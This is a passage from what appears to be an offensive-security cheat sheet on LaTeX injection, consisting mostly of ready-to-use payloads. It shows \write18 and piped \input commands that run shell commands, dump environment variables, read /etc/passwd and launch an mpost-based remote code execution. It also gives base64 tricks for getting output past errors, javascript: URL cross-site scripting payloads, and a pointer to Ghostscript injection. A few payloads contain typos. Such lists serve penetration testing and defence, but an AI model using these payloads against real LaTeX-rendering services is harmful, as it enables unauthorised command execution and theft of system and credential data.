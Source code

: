 ### Command execution <a href="#command-execution" id="command-execution"></a>

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

### Cross Site Scripting <a href="#cross-site-scripting" id="cross-site-scripting"></a>

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

## Ghostscript Injection

**Check** [**https://blog.redteam-pentesting.de/2023/ghostscript-overview/**](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

